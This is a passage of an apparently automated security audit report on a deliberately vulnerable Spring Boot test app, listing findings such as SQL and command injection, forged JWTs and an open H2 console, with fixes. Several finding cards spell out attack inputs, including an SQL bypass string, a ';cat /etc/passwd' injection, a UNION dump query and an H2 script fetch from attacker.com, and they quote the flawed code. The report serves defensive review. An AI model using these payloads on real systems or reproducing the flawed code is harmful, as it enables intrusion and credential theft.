- 🔴 [F-045](#f-045) — Insecure Direct Object Reference
- 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data

**Architecture evidence:** Centralised AuthZ Policy, Role / Scope Enforcement, Ownership Check

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access
- **Tactical** — ● [M-006](#m-006), ● [M-009](#m-009), ◕ [M-043](#m-043), ◕ [M-044](#m-044)

<a id="w-003"></a>
### W-003 — Input handling lacks enforced boundary validation

🟠 **High** · design weakness · confirmed · 1 finding

Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting selected bad patterns (a blacklist). New encodings and unanticipated input forms can therefore reach downstream parsers or interpreters.

**Confirmed findings:**

- 🟠 [F-033](#f-033) — Path Traversal via Name Parameter in `FileReadController.read`

**Architecture evidence:** Schema Validation, Allowlist Validation

**Affected components:** [C-01](#c-01)

**Remediation:**

- **Structural** — enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction
- **Tactical** — ◕ [M-031](#m-031)

<a id="w-004"></a>
### W-004 — Cryptographic security is implemented in application code

🟡 **Medium** · implementation weakness · observed-practice · 2 findings

Application code owns cryptographic protocol, key, or primitive decisions that should be fixed by a vetted platform or library. Security then depends on every caller choosing compatible algorithms and parameters.

**Practice sites:**

- 🟠 [F-017](#f-017) — Hand-rolled XOR / repeating-key cipher src/main/java/com/example/appsecverifica… (`src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`)
- 🟠 [F-018](#f-018) — Hand-rolled XOR / repeating-key cipher src/main/java/com/example/appsecverifica… (`src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:23`)

**Affected components:** backend-api

**Remediation:**

- **Structural** — replace application-owned cryptographic protocol and key handling with a vetted library or managed cryptographic service
- **Tactical** — ◕ [M-017](#m-017)

<a id="w-005"></a>
### W-005 — Security-sensitive data uses weak cryptographic primitives

🟡 **Medium** · implementation weakness · observed-practice · 6 findings

Password, token, or integrity protection uses a weak hash, predictable random source, or insufficient work factor. The application may use a standard library, but the selected primitive does not provide the required security property.

**Practice sites:**

- 🟠 [F-019](#f-019) — Non-cryptographic RNG in a security module Java src/main/java/com/example/appse… (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`)
- 🔴 [F-036](#f-036) — XOR Cipher with Hardcoded Key Used for Password Storage (HomegrownCipher) (`src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`)
- 🟠 [F-037](#f-037) — MD5 Used for Password Hashing in LegacyPasswordService (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`)
- 🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store (`src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:100`)
- 🟠 [F-047](#f-047) — Insecure ECB cipher mode Java src/main/java/com/example/appsecverificationtarge… (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`)
- 🟡 [F-048](#f-048) — Broken hash primitive Java src/main/java/com/example/appsecverificationtarget/c… (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`)

**Affected components:** backend-api, [C-01](#c-01), [C-03](#c-03)

**Remediation:**

- **Structural** — standardise on a password KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters
- **Tactical** — ◕ [M-018](#m-018), ◕ [M-034](#m-034), ◕ [M-035](#m-035), ◕ [M-039](#m-039), ◑ [M-045](#m-045), ◑ [M-046](#m-046)

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 10 · 🟠 High: 35 · 🟡 Medium: 6 · 🟢 Low: 0 · **Total findings: 51**
**STRIDE Coverage:** Spoofing: 6 · Tampering: 16 · Repudiation: 4 · Information Disclosure: 16 · Denial of Service: 2 · Elevation of Privilege: 7

The systemic root-cause view is summarized in **Top Weaknesses** in the Management Summary; evidence-backed weaknesses are documented in the [Weakness Register](#weakness-register).

**Findings index:**<br/>🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw…<br/>🔴 [F-002](#f-002) — JWT parsed without signature verification…<br/>🔴 [F-003](#f-003) — OS Command Injection via Name Parameter (`ToolController.lookup`)…<br/>🔴 [F-004](#f-004) — SQL Injection<br/>🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile)…<br/>🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database…<br/>🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext…<br/>🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console…<br/>🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication…<br/>🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me…<br/>🟠 [F-011](#f-011) — Empty H2 Datasource Password (`src/main/resources/application.yml`)…<br/>🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none)…<br/>🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup…<br/>🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID…<br/>🔴 [F-015](#f-015) — Hardcoded Credentials…<br/>🟠 [F-016](#f-016) — Command injection Java src/main/java/com/example/appsecverificationtarg…<br/>🟠 [F-017](#f-017) — Hand-rolled XOR / repeating-key cipher…<br/>🟠 [F-018](#f-018) — Hand-rolled XOR / repeating-key cipher…<br/>🟠 [F-019](#f-019) — Non-cryptographic RNG in a security module Java…<br/>🟠 [F-021](#f-021) — Remote Script Pipe Without Integrity Verification (Dockerfile)…<br/>🟠 [F-022](#f-022) — H2 Console Clickjacking via sameOrigin Frame Policy…<br/>🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig…<br/>🟠 [F-024](#f-024) — Homegrown CSRF Token Validates Presence Only, Not Value…<br/>🟠 [F-025](#f-025) — Unrestricted File Upload with No MIME Type or Extension Validation…<br/>🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController (XXE)…<br/>🟠 [F-027](#f-027) — No Audit Log for H2 Console SQL Queries…<br/>🟠 [F-028](#f-028) — Cleartext Credentials Written to Application Logs…<br/>🟠 [F-029](#f-029) — No Audit Logging for User Privilege Operations in…<br/>🟠 [F-030](#f-030) — Dockerfile base image must be digest-pinned — `Dockerfile:1`<br/>🟠 [F-031](#f-031) — `Package-lock.json` present and committed — `package-lock.json`<br/>🟠 [F-032](#f-032) — Cleartext Credential Store Baked into Image (Dockerfile)…<br/>🟠 [F-033](#f-033) — Path Traversal via Name Parameter in `FileReadController.read`…<br/>🟠 [F-034](#f-034) — Spring Actuator Fully Exposed with show-values:ALWAYS and No…<br/>🔴 [F-035](#f-035) — AES/ECB Mode with Hardcoded Key in LegacyCryptoService…<br/>🔴 [F-036](#f-036) — XOR Cipher with Hardcoded Key Used for Password Storage…<br/>🟠 [F-037](#f-037) — MD5 Used for Password Hashing in LegacyPasswordService…<br/>🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch…<br/>🔴 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true…<br/>🟠 [F-040](#f-040) — SQLite Credential Database Baked Into Docker Image via COPY . /app…<br/>🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store…<br/>🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute…<br/>🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion…<br/>🟠 [F-044](#f-044) — Application Container Runs as Root Without USER Directive (Dockerfile)…<br/>🔴 [F-045](#f-045) — Insecure Direct Object Reference<br/>🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and…<br/>🟠 [F-047](#f-047) — Insecure ECB cipher mode Java src/main/java/com/example/appsecverificat…<br/>🟡 [F-048](#f-048) — Broken hash primitive Java src/main/java/com/example/appsecverification…<br/>🟠 [F-049](#f-049) — Mutable Base Image Tag Without Digest Pin (Dockerfile) — `Dockerfile:4`<br/>🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints…<br/>🟡 [F-051](#f-051) — Dockerfile USER directive (non-root) — `Dockerfile:1`<br/>🟡 [F-052](#f-052) — No Password Minimum Length Policy on User Registration…

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-06"></a><a id="th-09"></a><a id="th-17"></a><a id="th-07"></a><a id="th-08"></a><a id="th-12"></a><a id="th-14"></a><a id="th-15"></a><a id="th-16"></a>

### 🔴 Critical (10)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · SQL Injection Authentication Bypass in authenticateRaw

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`

**Trust boundary gap:** [tb-4](#tb-4) - spring-app → file-storage · Query construction: LegacySqliteAuthController routes GET /login-raw to `authenticateRaw()`, violating the boundary assumption that only the parameterized `authenticate()` method is ever used for credential verification.

**Issue:** The public endpoint GET /api/legacy-sqlite/login-raw accepts username and password as query parameters and passes them to `authenticateRaw()`, which builds the SQL query by direct string concatenation at `LegacySqliteUserStore.java:64`: `"... where username = '" + username + "' and password = '" + password + "'"`.

An attacker sends username=`legacy_admin' --` and any password. The resulting SQL becomes `...

Full authentication bypass for any account including legacy_admin (role=ADMIN); UNION-based injection can also dump all usernames and plaintext passwords from legacy_users.

**Evidence:** ✓ verified - `authenticateRaw()` at line 64 constructs SQL by concatenating username and password directly into the query string via Java string concatenation, with no parameterization.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64
    }

    public Optional<LegacySqliteUser> authenticateRaw(String username, String password) {
        String sql = "select id, username, password, role from legacy_users where username = '" + username + "' and password = '" + password + "'";
        try (Connection connection = connection();
             Statement statement = connection.createStatement();
             ResultSet resultSet = statement.executeQuery(sql)) {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-001](#m-001) — Use parameterized database queries (`LegacySqliteUserStore.java:64`)

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.1](#31-sql-injection-authentication-bypass-in-authenticateraw)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · JWT parsed without signature verification src/main/java/com/example/appsecverif…

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`

**Issue:** parseClaimsJwt accepts an unsigned token: an attacker mints arbitrary claims (sub, roles, scope) with no key. Only the *Jws / parseSignedClaims variants verify the signature.

**Evidence:** ✓ verified

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17
    public Map<String, Object> readClaims(String token) {
        Jwt<?, Claims> jwt = Jwts.parserBuilder()
                .build()
                .parseClaimsJwt(token);
        return new LinkedHashMap<>(jwt.getBody());
    }
}
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ● [M-002](#m-002) — Enforce JWT signature and algorithm verification (`LegacyJwtVerifier.java:17`)

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · walkthrough [Walkthrough §3.2](#32-jwt-parsed-without-signature-verification-srcmainjavacomexampleappsecver)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · OS Command Injection via Name Parameter (ToolController.lookup)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Validation: The validation leg is entirely absent: the name parameter reaches the OS shell without any sanitization or input validation.

**Issue:** `ToolController.lookup()` passes the caller-supplied name parameter directly to `Runtime.getRuntime().exec(new String[]{"sh","-c","echo Result for " + name})`. The shell -c invocation interprets shell metacharacters.

The endpoint GET /api/tools/lookup is listed as `permitAll()` in SecurityConfig:37 so no authentication is required. An attacker sends name=x;cat /etc/passwd to execute arbitrary OS commands as the application process user.

Unauthenticated full OS command execution as the JVM process user, enabling complete server compromise.

**Evidence:** ✓ verified - ToolController:18 passes `"echo Result for " + name` as the shell argument to `sh -c` via `Runtime.exec()` without any input sanitization.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18

    @GetMapping("/lookup")
    public Map<String, Object> lookup(@RequestParam String name) throws IOException, InterruptedException {
        Process process = Runtime.getRuntime().exec(new String[]{"sh", "-c", "echo Result for " + name});
        String output = new String(process.getInputStream().readAllBytes(), StandardCharsets.UTF_8);
        String error = new String(process.getErrorStream().readAllBytes(), StandardCharsets.UTF_8);
        int exitCode = process.waitFor();
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ● [M-003](#m-003) — Eliminate shell invocation in ToolController.lookup and validate input against… (`ToolController.java:18`)

**Classification:** Injection · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.8](#38-os-command-injection-in-tool-controller)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** Multiple locations (3)

**Trust boundary gap:** [tb-3](#tb-3) - spring-app → h2-database · Query construction: String concatenation into createNativeQuery breaks the data-interpretation leg: untrusted user input reaches H2 as executable SQL rather than a bound parameter.

**Instances (3):** `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`, `src/main/java/com/example/appsecverificationtarget/inputvalidation/DocumentLookupDao.java:17`, `src/main/java/com/example/appsecverificationtarget/projectsearch/ProjectSearchRepository.java:18`

**Issue:** `OrderLookupDao.findByOwnerEmail()` builds a native SQL query by directly concatenating the caller-supplied email string: `... where u.email = '" + email + "'`.

This method is invoked from the GET /api/orders/search endpoint which SecurityConfig:35 lists as `permitAll()` - no authentication required. An attacker sends email=' UNION SELECT id,username,password_hash,email,email,role FROM app_users-- to extract the full user table including BCrypt hashes, or uses the H2 MODE=PostgreSQL stacked-query support to execute DML.

Unauthenticated full read/write access to the H2 database including all user, order, and document records.

**Evidence:** ✓ verified - OrderLookupDao:22 builds the SQL string as `'... where u.email = \'' + email + '\' order by o.id'` using `EntityManager.createNativeQuery()`.

```java
// src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22

    @SuppressWarnings("unchecked")
    public List<CustomerOrder> findByOwnerEmail(String email) {
        String sql = "select o.* from customer_orders o join app_users u on o.owner_id = u.id where u.email = '" + email + "' order by o.id";
        return entityManager.createNativeQuery(sql, CustomerOrder.class).getResultList();
    }

```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-004](#m-004) — Use parameterized database queries (`OrderLookupDao.java:22`)

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.3](#33-sql-injection-in-spring-boot-web-application)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile)

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:12`

**Issue:** Four secrets - `DB_PASSWORD`, `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, and `AWS_SECRET_ACCESS_KEY` - are baked into ENV instructions lines 12-15. Docker stores each ENV instruction as a discrete image layer.

Any user with access to the registry (docker pull, docker history, or docker inspect) can read the plaintext values without needing to run the container. The JWT signing key enables the attacker to forge arbitrary JWT tokens accepted by the application.

Any holder of the image can forge JWTs, access AWS resources, and authenticate to the database with zero additional exploitation.

**Evidence:** ✓ verified - Dockerfile lines 12-15 set `DB_PASSWORD`, `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, and `AWS_SECRET_ACCESS_KEY` as plaintext ENV instructions; each becomes a readable layer in the image manifest.

```dockerfile
// Dockerfile:12
WORKDIR /app

# Hardcoded secrets baked into image layers and process environment.
ENV DB_PASSWORD=**** (25 chars)
ENV JWT_SIGNING_KEY=hardcoded-legacy-jwt-secret
ENV AWS_ACCESS_KEY_ID=AKIA<REDACTED>
ENV AWS_SECRET_ACCESS_KEY=**** (40 chars)
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ● [M-005](#m-005) — Move secrets to a managed secret store (`Dockerfile:12`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · walkthrough [Walkthrough §3.7](#37-hardcoded-secrets-in-dockerfile-env-layers-dockerfile)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · H2 Web Console Exposed Without Authentication Allowing Full Database Access

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

**Weakness:** [W-002](#w-002) - Authorization is implemented route by route

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Authentication: H2 console is explicitly placed in `permitAll()` with no authentication requirement, breaking the authentication leg of the Spring Security trust boundary.

**Issue:** SecurityConfig:32 lists `/h2-console/**` as `permitAll()` while `application.yml` has `spring.h2.console.enabled: true`. The H2 web console at /h2-console is a full SQL IDE that accepts arbitrary SQL against the in-memory database.

An unauthenticated attacker connects to `jdbc:h2:mem:appsec_verification_target` using the default H2 credentials (username: sa, blank password) and executes arbitrary SQL to read all tables (app_users, customer_orders, documents, vault_credentials) or write/delete data. Full unauthenticated read/write access to the application database, including credential extraction, privilege escalation, and data destruction.

**Evidence:** ✓ verified - SecurityConfig:32 has `.requestMatchers("/h2-console/**").permitAll()`; `application.yml:11` sets `spring.h2.console.enabled: true`.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32
                .headers(headers -> headers.frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin))
                .authorizeHttpRequests(authorize -> authorize
                        .requestMatchers("/", "/login", "/register", "/assets/**").permitAll()
                        .requestMatchers("/h2-console/**").permitAll()
                        .requestMatchers("/actuator/**").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/orders/search", "/api/orders/status-feed").permitAll()
```

**Fix:** ● [M-006](#m-006) — Enforce server-side authorization on every endpoint (`SecurityConfig.java:32`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.4](#34-h2-web-console-exposed-without-authentication-allowing-full-database-access)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:65`

**Issue:** GET /api/legacy-sqlite/users calls `findAll()` and serializes every row in legacy_users into a JSON array. The LegacyUserResponse record at line 65 includes the password field directly in the response body.

No authentication, authorization check, or session requirement exists on this endpoint. Any unauthenticated caller can retrieve the complete credential set - usernames, plaintext passwords, and roles - in a single HTTP request.

Complete credential dump of all legacy users including legacy_admin - every username, plaintext password, and role - exposed to any unauthenticated caller.

**Evidence:** ✓ verified - LegacyUserResponse (line 65) includes the password field, and the /users endpoint calls `findAll()` with no authentication guard in scope.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ● [M-007](#m-007) — Stop exposing internal information to clients (`LegacySqliteAuthController.java:65`)

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Missing Authentication on H2 SQL Console (src/main/resources/application.yml)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - H2 In-Memory Database  ·  **Location:** `src/main/resources/application.yml:11`

**Weakness:** [W-001](#w-001) - Endpoints are reachable without enforced authentication

**Issue:** The H2 web console is enabled via `h2.console.enabled: true` in `application.yml` and exposed at `/h2-console/**` with no Spring Security authentication guard (`requestMatchers("/h2-console/**").permitAll()` in `SecurityConfig.java:32`). The H2 console's own login prompt accepts the default credentials - username `sa` with an empty password as configured in `application.yml`:8.

Any unauthenticated HTTP client reachable to the server can open the console, log in immediately with `sa` / empty password, and execute arbitrary SQL against all application tables: `SELECT * FROM app_users`, `DROP TABLE customer_orders`, or `RUNSCRIPT FROM 'http://attacker.com/payload.sql'`. The JPA parameterized-query protections applied by the application layer are entirely bypassed - the console talks directly to the H2 engine.

Full read/write/delete access to all application database tables for any unauthenticated internet-facing attacker; equivalent to unrestricted DBA access.

**Evidence:** ✓ verified - `application.yml:11` sets `h2.console.enabled: true`; `SecurityConfig.java:32` places `/h2-console/**` in `permitAll()` with no auth requirement; `application.yml:8` configures an empty datasource password.

```yaml
// src/main/resources/application.yml:11
    password:
  h2:
    console:
      enabled: true
  jpa:
    hibernate:
      ddl-auto: create-drop
```

**Fix:** ● [M-008](#m-008) — Require authentication on every exposed endpoint (`application.yml:11`)

**Classification:** Unauthenticated Management Plane · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Legacy Admin Board Fully Open Without Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:41`

**Weakness:** [W-002](#w-002) - Authorization is implemented route by route

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Authentication: /legacy/admin/** is in `permitAll()` and the promote/delete operations perform no authentication check, violating both the authentication and authorization legs.

**Issue:** SecurityConfig:41 lists `/legacy/admin/**` as `permitAll()`. `LegacyAdminBoardController.promote()` at line 29 sets `user.setAdmin(true)` and `user.setRole("ADMIN")` and `LegacyAdminBoardController.delete()` at line 33 deletes any user account.

Both operations are exposed via unauthenticated POST requests. An unauthenticated attacker navigates to /legacy/admin, views the full user list, and promotes any account (including a newly registered attacker-controlled account) to ADMIN without any credential check.

Any unauthenticated user can promote any account to ADMIN or delete any user account, achieving complete administrative takeover.

**Evidence:** ✓ verified - SecurityConfig:41 has `.requestMatchers("/legacy/admin", "/legacy/admin/**").permitAll()`; LegacyAdminBoardController:29 promotes and :33 deletes users with no principal check.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:41
                        .requestMatchers(HttpMethod.GET, "/api/output/preview", "/api/output/plain-preview").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/legacy-admin/audit", "/api/legacy-session/orders").permitAll()
                        .requestMatchers("/api/legacy-sqlite/**").permitAll()
                        .requestMatchers("/legacy/admin", "/legacy/admin/**").permitAll()
                        .requestMatchers(HttpMethod.POST, "/api/xml/preview").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/auth/signed-jwt/token").authenticated()
                        .requestMatchers("/api/auth/**").permitAll()
```

**Fix:** ● [M-009](#m-009) — Enforce server-side authorization on every endpoint (`SecurityConfig.java:41`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.5](#35-legacy-admin-board-fully-open-without-authentication-in-security-config)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Authorization: Privileged fields (role, admin) are bound from the request body and persisted without authorization check, breaking the authorization leg.

**Issue:** `ProfileController.update()` at lines 44-47 deserializes the request body as AppUser and then applies the `role` field (line 44) and `admin` flag (line 47) directly to the current user without any authorization check. An authenticated user sends `PUT /api/profile/me` with body `{"role":"ADMIN","admin":true}` to grant themselves full administrative privileges.

The updated record is persisted via `appUserRepository.save()`, making the change permanent. Any authenticated user can promote themselves to ADMIN by supplying role and admin fields in the profile update request body.

**Evidence:** ✓ verified - ProfileController:44 calls `current.setRole(incoming.getRole())` and line 47 calls `current.setAdmin(incoming.isAdmin())` where incoming is bound directly from the request body AppUser without allowlisting.

```java
// src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44
                    if (incoming.getPasswordHash() != null) {
                        current.setPasswordHash(incoming.getPasswordHash());
                    }
                    if (incoming.getRole() != null) {
                        current.setRole(incoming.getRole());
                    }
                    current.setAdmin(incoming.isAdmin());
```

**Fix:** ● [M-010](#m-010) — Allowlist client-controlled fields (`ProfileController.java:44`)

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.6](#36-mass-assignment-privilege-escalation-in-spring-boot-web-application)

### 🟠 High (35)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Empty H2 Datasource Password (src/main/resources/application.yml)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - H2 In-Memory Database  ·  **Location:** `src/main/resources/application.yml:8`

**Issue:** The H2 datasource is configured with `username: sa` and `password:` (empty string) in `application.yml` lines 7–8. The H2 console login form uses these same JDBC credentials.

If any authentication layer were added in front of the console, an attacker who reaches the H2 login form still authenticates immediately with `sa` and no password - there is no secret to discover or brute-force. The H2 console's own authentication gate provides zero protection - any attacker who reaches the login form bypasses it with an empty password field.

**Evidence:** ✓ verified - `application.yml:8` sets `password:` with no value, configuring the H2 `sa` account with an empty password accepted by the H2 console login form.

```yaml
// src/main/resources/application.yml:8
    driver-class-name: org.h2.Driver
    username: sa
    password:
  h2:
    console:
```

**Fix:** Enforce a length and complexity policy and reject reused / breached passwords → ◕ [M-011](#m-011) — Set a strong random H2 datasource password loaded from environment configuration (`application.yml:8`)

**Classification:** Broken Authentication · [CWE-521](https://cwe.mitre.org/data/definitions/521.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → spring-app · Authentication: Spring Security allows /api/legacy-admin/audit without auth; the only gate is the JWT role claim which is unverified, breaking the authentication leg.

**Issue:** `LegacyJwtVerifier.readClaims()` calls `Jwts.parserBuilder()`.build().parseClaimsJwt(token) with no signing key configured. JJWT 0.11.5 with this configuration accepts unsigned tokens (alg:none).

An attacker calls GET /api/legacy-admin/audit?token=<crafted_token> supplying a JWT with header {"alg":"none"} and payload {"role":"ADMIN","sub":"attacker"}, which the verifier parses without signature verification. Any unauthenticated caller obtains the full application user list with emails, roles, and admin flags by forging a JWT with role=ADMIN.

**Evidence:** ✓ verified - LegacyJwtVerifier:15 builds a JJWT parser via `parserBuilder()`.build() with no `setSigningKey()` call, then calls `parseClaimsJwt()` which accepts alg:none tokens.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15

    public Map<String, Object> readClaims(String token) {
        Jwt<?, Claims> jwt = Jwts.parserBuilder()
                .build()
                .parseClaimsJwt(token);
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◕ [M-012](#m-012) — Enforce JWT signature and algorithm verification (`LegacyJwtVerifier.java:15`)

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Trivially Guessable Default Credentials Seeded at Startup (admin/password)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:79`

**Issue:** SecurityConfig seeds three in-memory Spring Security users (alice/password, bob/password, admin/password) and DemoDataSeeder seeds the same accounts in the database at every startup. The legacy SQLite store seeds legacy_admin/admin.

These credentials are dictionary-guessable and unchanged between deployments. Full administrative access to the application and its data is available to any network-adjacent attacker without any brute force or exploit.

